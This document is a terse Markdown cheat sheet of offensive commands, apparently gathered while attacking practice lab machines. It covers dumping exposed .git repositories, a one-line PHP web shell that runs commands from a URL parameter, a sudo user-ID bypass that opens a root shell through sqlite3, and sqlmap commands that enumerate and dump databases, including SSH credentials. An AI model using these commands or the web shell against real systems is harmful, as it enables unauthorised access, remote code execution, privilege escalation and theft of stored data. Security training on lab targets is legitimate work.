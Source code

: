 ```bash
git clone https://github.com/internetwache/GitTools
cd GitTools/Dumper

./gitdumper.sh http://devguru.local/.git/ website
 ./extractor.sh ../Dumper/website ./website
```

## bcrypt-hash-generator

```bash
https://www.devglan.com/online-tools/bcrypt-hash-generator
```

## PHP
```php
shell_exec($_GET['cmd']);
```

## sqlite

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash'
```

## git_dumper

```python
https://github.com/arthaud/git-dumper

python3 git_dumper.py http://192.168.78.129/.git/ website
```

## sqlmap

```bash
sudo sqlmap -r sql --dbs --batch
sudo sqlmap -r sql -D darkhole_2 --dump-all --batch


sudo sqlmap -u http://192.168.78.129/dashboard.php?id=1 --cookie='PHPSESSID=kq2c1ldquq8lfpoe2uosnlqmfp' --dbms=mysql --current-db
sudo sqlmap -u http://192.168.78.129/dashboard.php?id=1 --dbms=mysql --current-db


sudo sqlmap -u http://192.168.78.129/dashboard.php?id=1 --dbms=mysql --current-db -D darkhole_2 --tables
sudo sqlmap -u http://192.168.78.129/dashboard.php?id=1 --dbms=mysql --current-db -D darkhole_2 --tables --dump-all
sudo sqlmap -u http://192.168.78.129/dashboard.php?id=1 --dbms=mysql --current-db -D darkhole_2 ssh --dump
```
